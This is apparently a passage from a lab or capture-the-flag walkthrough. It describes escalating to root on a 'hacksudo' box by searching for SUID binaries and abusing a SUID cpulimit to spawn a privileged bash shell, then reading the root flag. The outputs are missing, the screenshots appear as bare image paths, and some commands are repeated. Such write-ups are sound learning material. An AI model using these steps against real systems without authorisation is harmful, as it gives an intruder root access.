




5. Privilege Escalation (Second flag)
1. Checked for any SUID binaries.
$find / -perm -4000 -type f -exec ls -al {} \; 2>/dev/null
Output:

There's another file “cpulimit” that can lead us to the root shell.
2. From https://gtfobins.github.io/gtfobins/cpulimit/#suid.

3. Run the following code on hacksudo's shell.
hacksudo@hacksudo:~$cd Downloads/
hacksudo@hacksudo:~/Downloads$ ./cpulimit -l 100 -f -- /bin/bash -p
hacksudo@hacksudo:~/Downloads$ ./cpulimit -l 100 -f -- /bin/bash -p
Output:

You have a shell.
4. Run the following code on the new shell.
bash-5.0#id
bash-5.0# cd /root
bash-5.0# ls
bash-5.0# cat root.txt
bash-5.0# cd /root
bash-5.0# ls
bash-5.0# cat root.txt
Output:
